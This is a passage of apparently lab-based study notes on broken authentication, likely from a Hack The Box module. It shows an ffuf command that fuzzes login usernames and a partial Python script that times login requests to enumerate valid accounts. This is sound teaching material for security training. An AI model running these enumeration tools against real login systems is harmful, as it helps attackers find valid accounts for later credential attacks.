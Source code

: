 Sometimes login forms keep the username as a placeholder if it exists but if not exists they put a default name as the placeholder. It is the same as the User Unknown Attack.

`ffuf -request ~/request_user_q2 -request-proto http  -w ~/SecLists/Usernames/top-usernames-shortlist.txt:FUZZ -w ~/SecLists/Usernames/top-usernames-shortlist.txt:FUZZ2 -fr 'name="wronguser"'`

### Timing Attack

The same query to find the username and password should be used instead of a different query for each field because it can cause a timing vulnerability.
If the user exists it will take more time because it will do two queries, if it does not exists then it does one and its faster.
Script to calculate the time, `python3 timing.py /opt/useful/SecLists/Usernames/top-usernames-shortlist.txt`:

```py
import sys
import requests
import os.path

# define target url, change as needed
url = "http://brokenauthentication.hackthebox.eu/login.php"

# define a fake headers to present ourself as Chromium browser, change if needed
headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.96 Safari/537.36"}

# define the string expected if valid account has been found. our basic PHP example replies with Welcome in case of success

valid = "Welcome"

"""
wordlist is expected as simple list, we keep this function to have it ready if needed.
for this test we are using /opt/useful/SecLists/Usernames/top-usernames-shortlist.txt
change this function if your wordlist has a different format
"""
def unpack(fline):
    userid = fline
    passwd = 'foobar'

    return userid, passwd

"""
our PHP example accepts requests via POST, and requires parameters as userid and passwd
"""
def do_req(url, userid, passwd, headers):
    data = {"userid": userid, "passwd": passwd, "submit": "submit"}
    res = requests.post(url, headers=headers, data=data)
    print("[+] user {:15} took {}".format(userid, res.elapsed.total_seconds()))

    return res.text

def main():
    # check if this script has been runned with an argument, and the argument exists and is a file
    if (len(sys.argv) > 1) and (os.path.isfile(sys.argv[1])):
        fname = sys.argv[1]
    else:
        print("[!] Please check wordlist.")
        print("[-] Usage: python3 {} /path/to/wordlist".format(sys.argv[0]))
        sys.exit()

    # open the file, this is our wordlist
    with open(fname) as fh:
        # read file line by line
```